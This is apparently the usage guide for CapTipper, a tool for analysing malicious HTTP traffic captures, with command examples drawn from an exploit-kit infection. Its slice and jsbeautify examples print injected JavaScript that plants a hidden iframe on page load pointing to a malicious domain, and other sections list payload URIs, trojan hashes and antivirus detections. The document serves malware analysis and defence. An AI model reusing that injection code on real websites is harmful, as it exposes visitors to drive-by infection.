 =======
Usage
=======

CapTipper is written in Python and it requires Python 2.7 to function properly.
CapTipper was tested on Windows, Linux & Mac and doesn't require any installation; every prerequisites it might need is bundled into its project folder.

Basic Usage:

.. code:: sh

    ./CapTipper.py <PCAP_file> [arguments]

Arguments
==========

CapTipper accepts command line arguments:

-h, --help                  Print this help message and exit
-p PORT, --port PORT        Set web server port
-d FOLDER, --dump FOLDER    Dump all files and exit
-s, --server-off            Disable web server
-short, --short-url         Display shortened URI paths
-r FOLDER, --report FOLDER  Create JSON & HTML report
-g, --ungzip                Automatically ungzip responses
-u, --update                Update CapTipper to newest version

``--ungzip`` Automatically ungzip all objects but web-server still responds with the original response.

Console
=======

The Initialization of CapTipper outputs the conversations found between the client and the server in the following format:

[ID] : REQUEST URI -> SERVER RESPONSE TYPE (FILENAME) [SIZE IN BYTES] (Magic: $Whatype)

* ID: An assigned Id to the specific conversation
* REQUEST URI: The URI that was sent to the server in the GET request
* SERVER RESPONSE TYPE: The content-type returned in the server response header
* FILENAME: The filename can be a few things:

    1) Filename attribute given in the response header
    2) Derived from the URI
    3) Assigned by CapTipper if couldn't find any of the above
* SIZE IN BYTES: Response body size
* MAGIC: The file format as identified by the Whatype library

After Initialization, 2 things occur:

    1. CapTipper creates a pseudo-web server that behaves like the web server in the pcap
    2. An Interpreter is launched

The interpreter contains internal tools for further investigation of the objects in the PCAP file.
Opening a URI in the browser is simply by typing ``open`` along with the object id

For more information on the WebServer please see

Following are details for all the currently available commands.

open
----
CapTipper launches a local webserver imitating the web servers in the PCAP.
The ``open`` command gets a given conversation and launches the default browser to go to that URL on the local webserver.

Example:
::

    CT> open 0
    Opening http://localhost:80/ in default browser

log
----
Every request to the local webserver is logged and can be viewed using ``log`` command:

::

    CT> log
    [2015-07-08T16:25:18.815575] 127.0.0.1 : GET / HTTP/1.1

convs
-----

``convs`` will display all conversation in the form they were displayed when CapTipper was launched.

::

    CT> convs
    Conversations Found:

    0:  /  -> text/html (0.html) [5.4 KB]  (Magic: GZ)
    1:  /seedadmin17.html  -> text/html (seedadmin17.html) [354.0 B]  (Magic: HTML)
    2:  /wp-includes/js/jquery/jquery.js?ver=1.7.2  -> application/javascript (jquery.js) [38.6 KB]  (Magic: GZ)
    3:  /15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html  -> text/html (15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html) [110.5 KB]  (Magic: HTML)
    4:  /wp-content/uploads/2014/01/MetroWest_COVER_Issue2_Feb2014.jpg  -> image/jpeg (MetroWest_COVER_Issue2_Feb2014.jpg) [341.8 KB]  (Magic: JPG)
    5:  /images/footer/3000melbourne.png  -> image/png (3000melbourne.png) [2.9 KB]  (Magic: PNG)
    6:  /images/footer/3207portmelbourne.png  -> image/png (3207portmelbourne.png) [3.0 KB]  (Magic: PNG)
    7:  /wp-content/uploads/2012/09/background1.jpg  -> image/jpeg (background1.jpg) [32.3 KB]  (Magic: JPG)
    8:  /00015d76d9b2rr9f/1415286120  -> application/octet-stream (00015d76.swf) [30.8 KB]  (Magic: SWF)
    9:  /00015d766423rr9f/1415286120  -> application/pdf (XykpdWhZZ2.pdf) [9.7 KB]  (Magic: PDF)
    10:  /00015d76rr9f/1415286120/5/x00809070554515d565b010b03510053535c0505;1;6  -> application/octet-stream (5.exe) [136.0 KB]  (Magic: EXE)
    11:  /00015d76rr9f/1415286120/5/x00809070554515d565b010b03510053535c0505;1;6;1  -> application/octet-stream (5.exe) [136.0 KB]  (Magic: EXE)
    12:  /00015d76rr9f/1415286120/7  -> application/octet-stream (7.exe) [136.0 KB]  (Magic: EXE)
    13:  /00015d761709rr9f/1415286120  -> application/octet-stream (00015d76.swf) [7.9 KB]  (Magic: XAP)
    14:  /00015d76rr9f/1415286120/8  -> application/octet-stream (8.exe) [136.0 KB]  (Magic: EXE)

hosts
-----

The ``hosts`` command allows us to take a bird-eye-view on the hosts and URIs involved in the traffic.

::

    CT> hosts
    Found Hosts:

     www.magmedia.com.au (182.160.157.199:80)
     ├-- /   [0]
     ├-- /wp-includes/js/jquery/jquery.js?ver=1.7.2   [2]
     ├-- /wp-content/uploads/2014/01/MetroWest_COVER_Issue2_Feb2014.jpg   [4]
     ├-- /images/footer/3000melbourne.png   [5]
     ├-- /images/footer/3207portmelbourne.png   [6]
     └-- /wp-content/uploads/2012/09/background1.jpg   [7]


     pixeltouchstudios.tk (108.61.196.84:80)
     └-- /seedadmin17.html   [1]


     grannityrektonaver.co.vu (173.244.195.17:80)
     ├-- /15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html   [3]
     ├-- /00015d76d9b2rr9f/1415286120   [8]
     ├-- /00015d766423rr9f/1415286120   [9]
     ├-- /00015d76rr9f/1415286120/5/x00809070554515d565b010b03510053535c0505;1;6   [10]
     ├-- /00015d76rr9f/1415286120/5/x00809070554515d565b010b03510053535c0505;1;6;1   [11]
     ├-- /00015d76rr9f/1415286120/7   [12]
     ├-- /00015d761709rr9f/1415286120   [13]
     └-- /00015d76rr9f/1415286120/8   [14]


head
-----

``head`` outputs a given conversations response header.

Following is its help message:
::

    Display header of response

    Usage: head <conv_id>


For example:
::

    CT> head 0
    Displaying header of object 0 (0.html):

    HTTP/1.1 200 OK
    Content-Encoding: gzip
    Vary: Accept-Encoding
    Transfer-Encoding: chunked
    Date: Thu, 06 Nov 2014 15:03:41 GMT
    Server: LiteSpeed
    Connection: close
    X-Powered-By: PHP/5.4.32
    X-Pingback: http://www.magmedia.com.au/xmlrpc.php
    Content-Type: text/html; charset=UTF-8
    Set-Cookie: slimstat_tracking_code=256799id.b66059145c9c6730b88376341fa0a97e; expires=Sun, 07-Dec-2014 15:03:41 GMT; path=/


body
----
body gets the conversation id as an argument and outputs the responses
body. Following is its help message:

::

    Displays the text representation of the body

    Usage: body <conv_id> [size=256]



By default, ``body`` displays the first 256 bytes of the object by it can accept a second argument which indicates the amount of bytes of the response body to display.
it can also accept ``all`` as the second argument, which will return the entire body.

For example:
::

    CT> body 1 128
    Displaying body of object 1 (seedadmin17.html) [128 bytes]:

    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>302 Found</title>
    </head><body>
    <h1>Found</h1>
    <p>The doc

ungzip
------
Many times using the ``body`` command will result in an un-readable response due to use of the GZIP compression.

::

    CT> body 0
    Displaying body of object 0 (0.html) [256 bytes]:

    ▼     ♦♥─╜i{#╟ס╢√}~♣X╓t♥═"HJצg♀░→o½%Y▓╡ם║m┘CR║
    @a!▒P ╪כ        ╬o?≈‼╣TJ≥£≈\g╞jó╢\"#cן╚πg ÷ry≤~5↔O6םµ╦Vπ├ףף h|╛*ך╞½σh≤6_§ם╧ק╖כa╛ש.↨iπ╦┼á▌רl67¥ππ╤z╘^«╞╟ ÷∞°▀F╖כב▐hלכ═╦σ≥zZ4≤╓▌¢|╒Φg├σαv^,6φב=h╧≤═`╥\¶o
    ←▀↨π╧▐▌4ףf»≤π╢█h%חy{U▄╠≥A╤<n₧_┤?Φ=█▐▌_4/Z↨τ↨ק↨↨↨╟↨ח?^╢מ╟irq±┴i


``ungzip`` gets a conversation id as an argument and creates a new object
with the ungzipped form of the object

::

    CT> ungzip 0
     GZIP Decompression of object 0 (0.html) successful!
     New object created: 15

The new object created is added to the `objects` list and can be seen using the ``objects`` command:

::

    CT> objects
    Displaying Objects:

     ID   CID     TYPE          NAME
    ---- -----  -----------   --------
      0 | 0   | body        | 0.html
      1 | 1   | body        | seedadmin17.html
      2 | 2   | body        | jquery.js
      3 | 3   | body        | 15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html
      4 | 4   | body        | MetroWest_COVER_Issue2_Feb2014.jpg
      5 | 5   | body        | 3000melbourne.png
      6 | 6   | body        | 3207portmelbourne.png
      7 | 7   | body        | background1.jpg
      8 | 8   | body        | 00015d76.swf
      9 | 9   | body        | XykpdWhZZ2.pdf
     10 | 10  | body        | 5.exe
     11 | 11  | body        | 5.exe
     12 | 12  | body        | 7.exe
     13 | 13  | body        | 00015d76.swf
     14 | 14  | body        | 8.exe
     15 | 0   | ungzip      | ungzip-0.html     <---------- NEW UNGZIPPED OBJECT



req
----

``req`` gets the conversation id as an argument and outputs the request data.

For example:
::

    CT> req 0
    Displaying request for object 0 (0.html) [633 bytes]:

    GET / HTTP/1.1
    Accept: image/jpeg, application/x-ms-application, image/gif, application/xaml+xml, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
    Referer: http://www.google.com/url?url=http://www.magmedia.com.au/&rct=j&frm=1&q=&esrc=s&sa=U&ei=uItbVLWHHYGpyASK44CoCQ&ved=0CBUQFjAA&usg=AFQjCNHuIidJc6dJKT_wy-UruJtaHR9Mhg
    Accept-Language: en-US
    User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
    Accept-Encoding: gzip, deflate
    Host: www.magmedia.com.au
    Connection: Keep-Alive

hexdump
--------
The ``hexdump`` command displays the hexdump of a given conversation object. like the ``body`` command,
it display the first 256 bytes of the objects but this can be changed by providing a second argument.

Its help message:
::

    Display hexdump of given object

    Usage: hexdump <conv_id> [size=256]


For example:

::

    CT> hexdump 12
    Displaying hexdump of object 12 (7.exe) body [256 bytes]:

    0000   4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF 00 00    MZ..............
    0010   B8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00    ........@.......
    0020   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
    0030   00 00 00 00 00 00 00 00 00 00 00 00 C8 00 00 00    ................
    0040   0E 1F BA 0E 00 B4 09 CD 21 B8 01 4C CD 21 54 68    ........!..L.!Th
    0050   69 73 20 70 72 6F 67 72 61 6D 20 63 61 6E 6E 6F    is program canno
    0060   74 20 62 65 20 72 75 6E 20 69 6E 20 44 4F 53 20    t be run in DOS
    0070   6D 6F 64 65 2E 0D 0D 0A 24 00 00 00 00 00 00 00    mode....$.......
    0080   37 62 C4 DA 73 03 AA 89 73 03 AA 89 73 03 AA 89    7b..s...s...s...
    0090   F0 1F A4 89 72 03 AA 89 3C 21 A3 89 76 03 AA 89    ....r...<!..v...
    00A0   45 25 A7 89 72 03 AA 89 52 69 63 68 73 03 AA 89    E%..r...Richs...
    00B0   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
    00C0   00 00 00 00 00 00 00 00 50 45 00 00 4C 01 03 00    ........PE..L...
    00D0   51 5C 5A 54 00 00 00 00 00 00 00 00 E0 00 0F 01    Q\ZT............
    00E0   0B 01 06 00 00 C0 01 00 00 70 00 00 00 00 00 00    .........p......
    00F0   14 13 00 00 00 10 00 00 00 D0 01 00 00 00 40 00    ..............@.

peinfo
------
The ``peinfo`` displays interesting and suspicious information regarding a binary file based on the Malware Cookbook PE scanner.

It also supports using the ``-p`` argument to identify packers from the PEiD signature database.
Help message:
::

    Display PE info of the file

    Usage: peinfo <obj_id> [-p]

    OPTIONS:
         -p     -   Check for packers

For example:
::

    CT> peinfo 12
    Displaying PE info of object 12 (7.exe) [139264 bytes]:

    Meta-data
    ================================================================================
    Size:    139264 bytes
    MD5:     67291715c45c4594b8866e90fbf5c7c4
    SHA1:    a86dcb1d04be68a9f2d2373ee55cbe15fd299452
    Date:    0x545A5C51 [Wed Nov  5 17:20:17 2014 UTC]
    EP:      0x401314 .text 0/3
    CRC:     Claimed: 0x24dec, Actual: 0x2621d [SUSPICIOUS]

    Resource entries
    ================================================================================
    Name               RVA      Size     Lang         Sublang                  Type
    --------------------------------------------------------------------------------
    RT_ICON            0x22980  0xea8    LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_ICON            0x218d8  0x10a8   LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_ICON            0x21470  0x468    LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_ICON            0x21108  0x368    LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_ICON            0x20460  0xca8    LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_GROUP_ICON      0x20414  0x4c     LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_VERSION         0x201b0  0x264    LANG_ENGLISH SUBLANG_ENGLISH_US

    Sections
    ================================================================================
    Name       VirtAddr     VirtSize     RawSize      Entropy
    --------------------------------------------------------------------------------
    .text      0x1000       0x1b5d8      0x1c000      6.635876
    .data      0x1d000      0x2128       0x1000       0.000000
    .rsrc      0x20000      0x3828       0x4000       4.580442

    Version info
    ================================================================================
    Translation: 0x0409 0x04b0
    InternalName: ProV
    FileVersion: 3.07
    CompanyName: VSO Software
    Comments: All rights reserved
    ProductName: Filmf\xf6rderanstalten
    ProductVersion: 3.07
    OriginalFilename: ProV.exe

info
----

``help`` will display metadata related to a given conversation, such as:

- Server IP and PORT
- Packet sent time
- Host
- URI
- Referrer
- Request Method
- Result number
- Result content type
- File name
- File type as identified by Whatype
- Response size

Help message:
::

    CT> help info

    Display info on object

    Usage: info <conv_id>

For example:

::

    CT> info 1
    Info of conversation 1:

     SERVER IP   : 108.61.196.84:80
     TIME        : Thu, 11/06/14 15:02:38
     HOST        : pixeltouchstudios.tk
     URI         : /seedadmin17.html
     REFERER     : http://www.magmedia.com.au/
     METHOD      : GET
     RESULT NUM  : 302 Found
     RESULT TYPE : text/html
     FILE NAME   : seedadmin17.html
     MAGIC       : HyperText Markup Language (HTML)
     LENGTH      : 354 B

plugin
------
CapTipper supports external plugins.
Extensive information regarding the plugin infrastructure can be found here.

The ``plugin`` command allows the user to use plugins that are stored in the ``plugins\`` folder. Its help message:
::

    CT> help plugin
    Launching an external plugin (alias: p)

    usage: plugin <plugin_name / plugin_id> [-l] <*args>
         -l      - List all available plugins

    examples:
         plugin find_scripts
         plugin 1
         p find_scripts

List all available plugins:
::

    CT> plugin -l
    Loaded Plugins (3):
     0 : check_host - Checks if a given id's host is alive
     1 : find_scripts - Finds external scripts included in the object body
     2 : print_body - Prints the body of a conversation and ungzip if needed


* The ``plugin`` command can be also used by its alias ``p``.

Each plugin is assigned with a unique ID, so the use of the plugin can be done either by its name or by its ID.

For example, we can use the ``check_host`` plugin who has the id ``0`` assigned to it.
This plugin receives a conversation id as an argument and checks if the domain hosting the conversation URL is alive.
Let's use the plugin with conversation ``12``:

::

    CT> p 0 12
    Checking host grannityrektonaver.co.vu
    IP:PORT = 173.244.195.17:80
    [-] Server is dead


dump
----
The ``dump`` command write to disk a given object id or all files found in the PCAP.

Its help message:

::

    Dumps the object file to a given folder

    Usage: dump <conv_id> <path> [-e]

    Options:
       -e       - ignores executables

Examples:
::

    dump 4 c:\files\index.html
                Dumps object 4 to given path

    dump all c:\files
                 Dumps all files to folder by their found name

    dump all c:\files -e
                 Dumps all files to folder by their found name, without EXE files


objects
-------
The ``objects`` command display the objects list described in Core#objects.

::

    CT> objects
    Displaying Objects:

     ID   CID     TYPE          NAME
    ---- -----  -----------   --------
      0 | 0   | body        | 0.html
      1 | 1   | body        | seedadmin17.html
      2 | 2   | body        | jquery.js
      3 | 3   | body        | 15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html
      4 | 4   | body        | MetroWest_COVER_Issue2_Feb2014.jpg
      5 | 5   | body        | 3000melbourne.png
      6 | 6   | body        | 3207portmelbourne.png
      7 | 7   | body        | background1.jpg
      8 | 8   | body        | 00015d76.swf
      9 | 9   | body        | XykpdWhZZ2.pdf
     10 | 10  | body        | 5.exe
     11 | 11  | body        | 5.exe
     12 | 12  | body        | 7.exe
     13 | 13  | body        | 00015d76.swf
     14 | 14  | body        | 8.exe




find
----
The ``find`` command searches for all occurrences of a given regex in a given conversation, or all conversations.

Its help message:
::

    Search for a regular expression in all or specific object

    Usage: find <obj_id / all> <pattern>


    Output data is displayed as follows:

       ([Line number] , [Offset from begining of file]) : [Found string]

It is advised to start CapTipper with the ``-g`` flag in order to automatically ungzip all objects and make the search more efficient.

Example searching for the domain `rabiorik` in all objects:
::

    CT> find all rabiorik
    Searching 'rabiorik' in all objects:

     0.html [0]:
        (777,50587) : t(){create_frame("http://rabiorik.ru/wlkzkir.cgi?default")

     wlkzkir.cgi [7]:
        (8,256) : 22 (@RELEASE@) Server at rabiorik.ru Port 80</address></b

Example searching `create_frame` in a specific object:
::

    CT> find 0 create_frame
    Searching 'create_frame' in object 0 (0.html):

     (777,50213) : xt/javascript'>function create_frame(a){var b=document.getEle
     (777,50566) : true}}function bdsls4t(){create_frame("http://rabiorik.ru/wlkz

slice
-----
The command ``slice`` displays a specified range of bytes (substring) from an object.

Its help message:
::

    Returns bytes from offset in given length

    Usage: slice <obj_id> <offset> <len | 'eob'>

Following the previous use of ``find``, we can examine the "create_frame" javascript function by requesting 256 bytes from its starting position.
``slice`` accepts the object-id (0), the offset start (50213) and the length (256):
::

    CT> slice 0 50213 256
    Displaying 256 of bytes from offset 50213 in object 0 (0.html):

    create_frame(a){var b=document.getElementById('weqe');if(typeof(b)!='undefined'&&b!=null){}
    else{var c=document.createElement('iframe');c.id="weqe";c.style.width="0px";c.style.height="0px";
    c.style.border="0px";c.frameBorder="0";c.style.display="none";c.setA

It also includes support for ``EOB`` (End Of Block) detection.
This will tell ``slice`` to display code until the end of the current block we are looking at,
whether it's a class, a function or a statement (based on braces { }).

The ``eob`` argument is used instead of the length value, e.g:

::

    CT> slice 0 50213 eob
    Displaying 334 of bytes from offset 50213 in object 0 (0.html):

    create_frame(a){var b=document.getElementById('weqe');if(typeof(b)!='undefined'&&b!=null){}
    else{var c=document.createElement('iframe');c.id="weqe";c.style.width="0px";c.style.height="0px";
    c.style.border="0px";c.frameBorder="0";c.style.display="none";c.setAttribute("frameBorder","0");
    document.body.appendChild(c);c.src=a;return true}}

If we want to be able to read the code more conveniently, we can use the ``jsbeautify`` command.

jsbeautify
----------
The ``jsbeautify`` (JavaScript Beautify) command reformats the code to be more human-readable, very useful for deep inspection.

Its help message:
::

    Display JavaScript code after beautify

    Usage: jsbeautify <obj / slice> <object_id> <offset> <length>

    Example: jsbeautify slice <object_id> <offset> <len | eob>

    Example: jsbeautify obj <object_id>


``jsbeautify`` can accepts a conversation object and create a new one. (The new object can be dumped to the file system):

::

    CT> jsbeautify obj 8
     JavaScript Beautify of object 8 (jquery.ui.effect.min.js) successful!
     New object created: 16

Like ``ungzip``, The new object created can be seen using the ``objects``.

``jsbeautify`` can also accept the ``slice`` command seen in the previous section.

Example of the ``jsbeautify`` on the "create_frame" function in the javascript code, combined with the ``slice`` command.

::

    CT> jsbeautify slice 0 50213 512
    create_frame(a) {
        var b = document.getElementById('weqe');
        if (typeof(b) != 'undefined' && b != null) {} else {
            var c = document.createElement('iframe');
            c.id = "weqe";
            c.style.width = "0px";
            c.style.height = "0px";
            c.style.border = "0px";
            c.frameBorder = "0";
            c.style.display = "none";
            c.setAttribute("frameBorder", "0");
            document.body.appendChild(c);
            c.src = a;
            return true
        }
    }
    function bdsls4t() {
        create_frame("http://rabiorik.ru/wlkzkir.cgi?default")
    }
    try {
        if (window.attachEvent) {
            window.attachEvent('onload', bdsls4t)
        } else {
            if (window.onload) {
                var curronload = wi

vt
----
``vt`` sends a given object id's MD5 to VirusTotal to see if it is recognized by any of the Anti-Virus providers.

The use of ``vt`` requires a VirusTotal Public API key.

For example:

::

    CT> vt 14
     VirusTotal result for object 14 (8.exe):

     Detection: 46/57
     Last Analysis Date: 2015-04-09 12:37:31
     Report Link: https://www.virustotal.com/file/955e4e4a56bf80a30636b0c34673cdd6a889aff6569331a5336e1606e7c1050c/analysis/1428583051/

     Scan Result:
        MicroWorld-eScan	Trojan.GenericKD.1961906	12.0.250.0	20150409
        nProtect	Trojan.GenericKD.1961906	2015-04-09.02	20150409
        CAT-QuickHeal	TrojanPWS.Zbot.rw3	14.00	20150409
        McAfee	Generic.vd	6.0.5.614	20150409
        Malwarebytes	Trojan.Dorkbot.ED	1.75.0.1	20150409
        VIPRE	Trojan.Win32.Generic.pak!cobra	39190	20150409
        BitDefender	Trojan.GenericKD.1961906	7.2	20150409
        K7GW	Trojan ( 004b065c1 )	9.202.15539	20150409
        K7AntiVirus	Trojan ( 004b065c1 )	9.202.15538	20150409
        Agnitum	Trojan.Injector!qCiqLIlbpUs	5.5.1.3	20150408
        F-Prot	W32/Injector.OA	4.7.1.166	20150409
        Symantec	Infostealer.Limitail	20141.2.0.56	20150409
        Norman	Injector.HKVF	7.04.04	20150409
        TotalDefense	Win32/Tofsee.CQVQOaC	37.0.11540	20150409
        TrendMicro-HouseCall	TROJ_SPNV.01KC14	9.700.0.1001	20150409
        Avast	Win32:VB-AIWF [Trj]	8.0.1489.320	20150409
        Kaspersky	Trojan.Win32.VB.ctmy	15.0.1.10	20150409
        NANO-Antivirus	Trojan.Win32.Spambot.dippmr	0.30.10.952	20150409
        ViRobot	Trojan.Win32.R.Agent.139264[h]	2014.3.20.0	20150409
        Rising	PE:Malware.XPACK-HIE/Heur!1.9C48	25.0.0.17	20150409
        Ad-Aware	Trojan.GenericKD.1961906	12.0.163.0	20150409
        Emsisoft	Trojan.GenericKD.1961906 (B)	3.0.0.600	20150409
        Comodo	UnclassifiedMalware	21701	20150409
        F-Secure	Trojan.GenericKD.1961906	11.0.19100.45	20150409
        DrWeb	Trojan.Spambot.12689	7.0.12.3050	20150409
        Zillya	Trojan.VB.Win32.129714	2.0.0.2132	20150408
        TrendMicro	TROJ_SPNV.01KC14	9.740.0.1012	20150409
        McAfee-GW-Edition	BehavesLike.Win32.AAEH.ch	v2015	20150409
        Sophos	Mal/Generic-L	4.98.0	20150409
        Cyren	W32/Injector.CFDL-3956	5.4.16.7	20150409
        Avira	TR/Injector.139264.29	3.6.1.96	20150409
        Antiy-AVL	Trojan/Win32.SGeneric	1.0.0.1	20150409
        Microsoft	Backdoor:Win32/Tofsee.F	1.1.11502.0	20150409
        AhnLab-V3	Trojan/Win32.MDA	2015.04.09.00	20150408
        GData	Trojan.GenericKD.1961906	25	20150409
        ALYac	Trojan.GenericKD.1961906	1.0.1.4	20150409
        AVware	Trojan.Win32.Generic.pak!cobra	1.5.0.21	20150409
        Panda	Trj/WLT.B	4.6.4.2	20150408
        Zoner	Trojan.Tofsee.AX	1.0	20150407
        ESET-NOD32	Win32/Tofsee.AX	11448	20150409
        Tencent	Trojan.Win32.Qudamah.Gen.17	1.0.0.1	20150409
        Ikarus	Trojan-Spy.Agent	T3.1.8.9.0	20150409
        Fortinet	W32/BOVZ!tr	5.0.999.0	20150409
        AVG	Inject2.BDIT	15.0.0.4328	20150409
        Baidu-International	Trojan.Win32.VB.ctmy	3.5.1.41473	20150409
        Qihoo-360	HEUR/QVM03.0.Malware.Gen	1.0.0.1015	20150409


iframes
-------
The ``iframes`` command searches for iframe tags as part of the html source.

::

    CT> iframes 2
    Searching for iframes in object 2 (jquery.js)...
     1 iframe(s) Found!

     [I] 1 : http://pixeltouchstudios.tk/seedadmin17.html

client
------

Display all collected data on the client seen in the PCAP.

::

    CT> client

    Client Info:

     IP               :  192.168.204.136
     MAC              :  00:0c:29:64:76:eb
     USER-AGENT       :  Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
     X-FLASH-VERSION  :  11,8,800,94


ziplist
--------
The ``ziplist`` command receives an object id holding a ZIP file and display all files and folders stored inside it.

For example:
::

    CT> ziplist 6
     12 Files found in zip object 6 (QrWusuR.jar):

     [Z] 1 : META-INF/
     [Z] 2 : META-INF/MANIFEST.MF
     [Z] 3 : bDNxrqYgNO.class
     [Z] 4 : dNMU.class
     [Z] 5 : dxQegSHi.class
     [Z] 6 : EzAD.class
     [Z] 7 : ICrWA.class
     [Z] 8 : lcaOISBn.class
     [Z] 9 : pmd.class
     [Z] 10 : thXEdm.class
     [Z] 11 : YWbTSCCIk.class
     [Z] 12 : eqx.ps

output
-------
The ``output`` command logs all console commands and results to a file.
This is done by overriding ``sys.stdout``.
::

    CT> output /Users/omriher/Temp/Nuclear-110615.txt
    Logging to /Users/omriher/Temp/Nuclear-110615.txt

The logging only includes data from after using the ``output`` command.
In order to stop logging use ``stop`` as the path argument.

::

    CT> output stop
    Stopped logging to /Users/omriher/Temp/Nuclear-110615.txt


strings
--------
The ``strings`` command gets an object id and returns all strings found in that object.

For example:
::

    CT> strings 14
    Strings found in object 14 (8.exe) [139264 bytes]:
    !This program cannot be run in DOS mode.
    Richs
    .text
    `.data
    .rsrc
    MSVBVM60.DLL
    Meistillustriertes
    JGd:O
    Kontrollmodus
    Baustoffkartelle5
    Kontrollmodus
    Kanonenfeuerunterst
    tzungen57
    ...


hashes
-------
The ``hashes`` command shows all available hashes of a given object.

::

    CT> hashes 14
     Hashes of object 14 (8.exe):

     md5       :   67291715c45c4594b8866e90fbf5c7c4
     sha1      :   a86dcb1d04be68a9f2d2373ee55cbe15fd299452
     sha224    :   6cc5585425cbb8b656ac4d12ce6331561df705787a0f8036b5f47eed
     sha256    :   955e4e4a56bf80a30636b0c34673cdd6a889aff6569331a5336e1606e7c1050c
     sha384    :   a207d38c964a0736adb86e74ea20ae5737afea9bfc87b7126ebb6d628432f6261dcef15cacf3b3bc14b072374dadf676
     sha512    :   703a9a69239ffe3bddf44fecf09136cb1e9872708d8e3d2d39f9904a4cc075d9e63d6b421bea8f1affeef855f8d9c5b903a517779777febaa84521824b4a07e1

